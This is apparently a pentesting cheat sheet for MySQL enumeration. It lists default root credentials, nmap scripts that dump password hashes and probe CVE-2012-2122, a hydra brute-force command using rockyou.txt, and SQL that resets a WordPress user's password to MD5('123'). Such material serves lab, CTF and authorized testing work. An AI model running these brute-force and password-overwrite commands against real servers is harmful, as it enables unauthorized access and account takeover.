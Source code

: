 # MySql Enumeration(3306)

## What is MySql?
MySql is a sql database . A relational database organizes data into one or more data tables in which data types may be related to each other; these relations help structure the data.

***Default MySql Port -> 3306***
### Default MySql Credentials
user | password
---- | --------
root | 
root | root

### Nmap Scripts
-> Information Gathering

```
nmap -sV -v -sT --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <host IP address> -p 3306
```

-> Username Enumeration
```
nmap --script=mysql-enum.nse –script-args userdb=<username wordlist> <host IP address>
```

### MySql Connect
-> Local Access
```
mysql -u <user> -p
Enter Password:- <password>
```

-> Remote Access
```
mysql -u <user> -h <host IP address> -p
Enter Password:- <password>
```

### Basic Commands
-> Printing Database
```
mysql> show databases;
```
-> Selecting a database
```
mysql> use <database>;
```
Example:-
```
mysql> use wordpress;
```
-> Printing tables
```
mysql> select * from <table>;
```
Example:-
```
mysql> select * from wp_users;
```
-> updating passwords
```
mysql> update <table> set <password column> = <hash method>('<password>') where ID = <ID number>;
```
Example:-
```
mysql> update wp_users set user_pass = MD5('123') where ID =1;
```

### MySql BruteForcing
-> Syntax
```
hydra -l <user> -P <pass list> -s <port> <host IP address> mysql
```
-> Example BruteForcing
```
hydra -l root -P /usr/share/wordlists/rockyou.txt -s 3306 10.10.11.10 mysql
```
### -> Reference
* [Wikipedia](https://en.wikipedia.org/wiki/MySQL)
* [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-mysql)
